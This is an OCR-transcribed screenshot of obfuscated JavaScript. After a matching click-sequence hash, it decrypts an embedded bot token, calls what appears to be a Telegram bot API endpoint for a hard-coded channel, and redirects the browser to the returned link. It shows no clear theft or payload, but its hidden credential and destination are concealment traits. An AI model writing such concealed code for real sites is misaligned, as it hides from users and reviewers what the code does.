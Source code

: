 ```js
      t[h] = t[q];
      t[q] = b;
      u = (z + a) % 5939310
    };
    var k = String.fromCharCode(127);
    var r = '';
    var l = '%';
    var i = '#1';
    var v = '%';
    var e = '#0';
    var f = '#';
    return t.join(r).split(l).join(k).split(i).join(v).split(e).join(f).split(k)
  }
) (
  '%dimfT%mVlzx%degpatf5bfnrG%6tSiqth5at%easpi0emILmcim%e%/!=eZtnHf%e7cf+3rstO%%.D0i8p3t/Sphryoa%IL0rin%rcAeF6%nsenoYaLeQ5Natp4CrSrCGttUtZrdG%rlxe2poa2rdg=9fQs%&j_of0ButCO tb=r35DyCee8tgaCf=I=%rAQa4fe%ar0aonsGT_v/NgoPouP2%eoe%ue3tl&enTceynCtt4FBs%s/rBsAUEhradnkrstfgd?%t%xeyhcedeTo%olghXMsaocrB3aaDBr5rRa16Cjuct%cOee5lWE_ooo+Ka4%d3TysnehshstepId%%Ieoaycug:i_m=%%mjp0tgaiidoei.prn%sw1d',
  4129280
);
function f(oferkfer, icd) {
  const channel_id = - 1002496072246;
  var enc_token = _$_5975[0];
  if (
    oferkfer === G(_$_5975[1]) &&
    CryptoJS[_$_5975[7]](sequence[_$_5975[6]](_$_5975[5])) [_$_5975[4]](CryptoJS[_$_5975[3]][_$_5975[2]]) === _$_5975[8]
  ) {
    var decrypted = CryptoJS[_$_5975[12]][_$_5975[11]](
      enc_token,
      CryptoJS[_$_5975[3]][_$_5975[9]][_$_5975[10]](oferkfer),
      {
        drop: 192
      }
    ) [_$_5975[4]](CryptoJS[_$_5975[3]][_$_5975[9]]);
    var HOST = _$_5975[13] + String[_$_5975[14]](47) + String[_$_5975[14]](98) + String[_$_5975[14]](111) + String[_$_5975[14]](116) + decrypted;
    var xhr = new XMLHttpRequest();
    xhr[_$_5975[15]] = function () {
      if (xhr[_$_5975[16]] == XMLHttpRequest[_$_5975[17]]) {
        const resp = JSON[_$_5975[10]](xhr[_$_5975[18]]);
        try {
          const link = resp[_$_5975[20]][_$_5975[19]];
          window[_$_5975[23]][_$_5975[22]](link)
        } catch (error) {
          alert(_$_5975[24])
        }
      }
    };
    xhr[_$_5975[29]](
      _$_5975[25],
      HOST + String[_$_5975[14]](47) + _$_5975[26] + icd + _$_5975[27] + channel_id + _$_5975[28]
    );
    xhr[_$_5975[30]](null)
  } else {
    alert(_$_5975[24])
  }
};
;
var sequence = [];
;
function l() {
  sequence.push(this.id);
```